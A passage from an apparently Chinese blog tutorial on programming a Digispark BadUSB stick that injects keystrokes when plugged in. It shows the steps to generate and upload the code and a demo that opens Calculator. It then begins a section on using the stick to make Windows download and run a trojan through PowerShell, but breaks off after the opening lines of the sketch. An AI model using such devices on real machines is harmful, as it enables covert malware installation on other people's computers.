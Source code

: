 10、使用Automator编写键盘鼠标事件代码。简单演示一下插入Badusb后自动打开计算器。

![img](https://i-blog.csdnimg.cn/blog_migrate/1af1165ff117a642a2fa5217e03d3bad.png)

11、把Automator生成的代码复制到Arduino;点击上传按钮60秒内插入badusb盘（等待几秒写入完成即可拔出badusb盘）

![img](https://i-blog.csdnimg.cn/blog_migrate/f1cd8775e12c279c62980127d3665f1d.png)

12、写入成功提示Thank you

![img](https://i-blog.csdnimg.cn/blog_migrate/cbb2801345e5ac88d953cafac5567d8e.png)

插入写入代码完成的badusb盘演示： 

1、

![img](https://i-blog.csdnimg.cn/blog_migrate/c3e69992c4ab18903378c2f969c79e46.png)

2、

![img](https://i-blog.csdnimg.cn/blog_migrate/2155c58a31126cfa6bd61616d8e7e039.png)

3、

![img](https://i-blog.csdnimg.cn/blog_migrate/58f85700f8c8316d27062314c6f18abb.png)

### **三、实现插入Babusb远程渗透windows系统**

powershell远程下载并自动执行木马程序代码：

```cpp
#include "DigiKeyboard.h"



 



void setup() {



 



  pinMode(1, OUTPUT);//可用可不用



 



  DigiKeyboard.sendKeyStroke(0);//初始化



 



  delay(3000);//延时


```
